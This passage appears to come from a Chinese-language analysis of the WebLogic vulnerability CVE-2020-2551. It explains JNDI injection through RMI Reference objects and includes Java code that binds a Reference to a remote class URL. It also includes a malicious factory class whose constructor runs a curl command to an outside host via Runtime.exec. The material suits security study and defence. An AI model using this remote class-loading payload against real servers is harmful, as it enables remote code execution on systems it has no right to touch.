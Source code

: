 JNDI示例代码：

![image-20221018150440123](CVE-2020-2551_Weblogic.assets/image-20221018150440123.png)

![image-20221018150454540](CVE-2020-2551_Weblogic.assets/image-20221018150454540.png)

**3.3.1.JNDI注入**

**3.3.1.1.JNDI Reference+RMI攻击向量**

JNDI特性：
如果远程获取到RMI服务上的对象为 Reference类或者其子类，则在客户端获取远程对象存根实例时，可以从其他服务器上加载 class 文件来进行实例化获取Stub对象。

Reference中几个比较关键的属性：

className - 远程加载时所使用的类名，如果本地找不到这个类名，就去远程加载
classFactory - 远程的工厂类
classFactoryLocation - 工厂类加载的地址，可以是file://、ftp://、http:// 等协议
使用ReferenceWrapper类对Reference类或其子类对象进行远程包装使其能够被远程访问，客户端可以访问该引用。

```
Reference refObj = new Reference("refClassName", "FactoryClassName", "http://example.com:12345/");//refClassName为类名加上包名，FactoryClassName为工厂类名并且包含工厂类的包名
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);//这里也可以使用JNDI的ctx.bind("Foo", wrapper)方式，都可以
```

当有客户端通过lookup("refObj") 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference类的实例，客户端会首先去本地的 CLASSPATH 去寻找被标识为 refClassName 的类，如果本地未找到，则会去请求 http://example.com:12345/FactoryClassName.class 加载工厂类，实例化时会自动初始化构造方法，从而运行攻击载荷。

```
import java.io.IOException;
        public class FactoryClassName {
            public FactoryClassName () {
                String cmd = "curl http://172.16.1.1/success";
                try {
                    Runtime.getRuntime().exec(cmd).getInputStream();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
```
